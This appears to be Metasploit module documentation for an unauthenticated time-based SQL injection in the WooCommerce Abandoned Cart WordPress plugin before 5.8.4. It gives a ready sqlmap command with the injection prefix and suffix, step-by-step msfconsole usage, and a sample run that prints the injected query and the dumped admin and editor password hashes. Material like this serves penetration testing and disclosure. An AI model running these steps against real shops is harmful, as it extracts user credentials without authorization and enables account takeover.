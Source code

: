 ## Vulnerable Application

Abandoned Cart, a plugin for WordPress which extends the WooCommerce plugin,
prior to 5.8.4 is affected by an unauthenticated SQL injection via the
billing_first_name parameter of the save_data AJAX call.  A valid
wp_woocommerce_session cookie is required, which has at least one item in the
cart.

The plugin can be downloaded from
[here](https://downloads.wordpress.org/plugin/woocommerce-abandoned-cart.5.8.3.zip)

You'll need to first install WooCommerce and set up a shop with at least one item.
Next, install and activate Abandoned Cart.

This module slightly replicates sqlmap running as:

```
sqlmap -u http://local.target/wp-admin/admin-ajax.php --cookie='[cookies content here]' --method='POST' --data='billing_first_name=wpdeeply&billing_last_name=wpdeeply&billing_company=wpdeeply&billing_address_1=wpdeeply&billing_address_2=wpdeeply&billing_city=wpdeeply&billing_state=wpdeeply&billing_postcode=123234&billing_country=GB&billing_phone=12324&billing_email=wpdeeply%40protonmail.com&order_notes=&wcal_guest_capture_nonce=[nonce-value]&action=save_data' -p billing_first_name --prefix="', '', '','', '',( TRUE " --suffix=")) -- wpdeeply" --dbms mysql --technique=T --time-sec=1
```

## Verification Steps

1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_abandoned_cart_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set cookie [cookie]`
1. Do: `run`
1. You should get username and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COOKIE

A valid `wp_woocommerce_session` cookie, which has at least 1 item in the cart.  An example is:
`wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57`.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with WooCommerce 4.8.0 and Abandoned Cart 5.8.1 on Ubuntu 20.04 using MariaDB 10.3.22

```
resource (abandoned.rb)> use auxiliary/scanner/http/wp_abandoned_cart_sqli
resource (abandoned.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (abandoned.rb)> set verbose true
verbose => true
resource (abandoned.rb)> set cookie "wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57"
cookie => wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57
resource (abandoned.rb)> set count 3
count => 3
resource (abandoned.rb)> run
[*] Checking /wp-content/plugins/woocommerce-abandoned-cart/readme.txt
[*] Found version You in the plugin
[+] Vulnerable version detected
[*] Nonce: b56eb3a2cb
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(PghfuFZ) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) PghfuFZ from wp_users limit 3) eOMLbNMh)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_abandoned_cart_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
